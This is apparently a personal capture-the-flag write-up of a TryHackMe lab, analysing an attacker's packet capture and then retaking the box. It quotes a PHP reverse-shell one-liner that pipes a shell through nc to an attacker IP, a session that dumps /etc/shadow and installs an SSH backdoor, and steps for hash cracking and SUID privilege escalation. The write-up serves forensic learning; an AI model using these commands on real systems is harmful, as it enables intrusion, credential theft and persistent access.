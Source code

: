 ```yaml
---
title: Overpass2 (hacked)
tags:
- writeups
---
```


## Analysing the PCAP of our threat actor
- filtered by `HTTP`
	- ![[write-ups/images/Pasted image 20220823180028.png]]
	- taking a look @ what was uploaded we see a php script spawning a reverse shell on port `4242`
		- ![[write-ups/images/Pasted image 20220823180114.png]]
		- `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`
- filtered by ip & port to see what the attacker has done once he got initial access: `ip.addr == 192.168.170.145 && tcp.port eq 4242`
	```bash
	# see who he's logged in as + shell stabilize
	> id
	> python3 -c 'import pty;pty.spawn("/bin/bash")'
	# some dir listing & he cats .overpass?
	> ls -lAh
	-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
	-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
	> cat .overpass
	# then switches to the james user
	> su james
	Password: whenevernoteartinstant
	# checks what can be ran as root
	> sudo -l
	Matching Defaults entries for james on overpass-production:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	User james may run the following commands on overpass-production:
		(ALL : ALL) ALL
	# dumps /etc/shadow & estaablihes persistence with an ssh backdoor
	> sudo cat /etc/shadow
	> git clone https://github.com/NinjaJc01/ssh-backdoor
	> cd ssh-backdoor && ssh-keygen
	> chmod +x backdoor
	> ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
	```
	- he dumped the `/etc/shadow` file, let's see if we can crack some of the passwords ourselves
	- ![[write-ups/images/Pasted image 20220823183200.png]]
## Looking @ the backdoor
Getting a local copy of the backdoor is trivial: `git clone https://github.com/NinjaJc01/ssh-backdoor.git`. Now we can look @ the source code in `main.go`:
- What's the default hash for the backdoor?
	- ![[write-ups/images/Pasted image 20220823183523.png]]
- What's the hardcoded salt for the backdoor?
	- ![[write-ups/images/Pasted image 20220823183533.png]]
- What was the hash that the attacker used? - go back to the PCAP for this!
	- as we've previously seen the attacker used the `-a` tag to specify a custom hash for the backdoor
	- ![[write-ups/images/Pasted image 20220823183624.png]]
- Crack the hash using rockyou and a cracking tool of your choice. What's the password?
	- we know the hash & the salt so safe them into a file formatted as `hash:salt`
	- ![[write-ups/images/Pasted image 20220823183835.png]]
	- now pass it to `hashcat` & grab a coffee
	- ![[write-ups/images/Pasted image 20220823185520.png]]


## The Blue Team Attacks Back
Navigating to the web server we see that he had some fun
![[write-ups/images/Pasted image 20220823191014.png]]

Now nmap shows us aan additional port `2222` that runs ssh, that's the backdoor we previously seen

![[write-ups/images/Pasted image 20220823191047.png]]

Given that we know the password, let's try to ssh:
![[write-ups/images/Pasted image 20220823191118.png]]

Um.... ok it seems that we need to change the `HostkeyAlgorithms` option to [workaround](https://github.com/gitblit/gitblit/issues/1384) this:
![[write-ups/images/Pasted image 20220823191324.png]]

Now trying to run `sudo -l` with any of the previously shown passwords didn't work. So I started looking around & found this peculiar file `.suid_bash`:

![[write-ups/images/Pasted image 20220823191624.png]]

Executing this [[SUID]] file it should give us an easy way to root. With the help of [GTFObins](https://gtfobins.github.io/gtfobins/bash/) we're back in boys, ready to kick the attacker out of the box & restore functionality *(probably better hardening the system after this event😅)*

![[write-ups/images/Pasted image 20220823191926.png]]

## Refs

## See Also
- [[write-ups/THM]]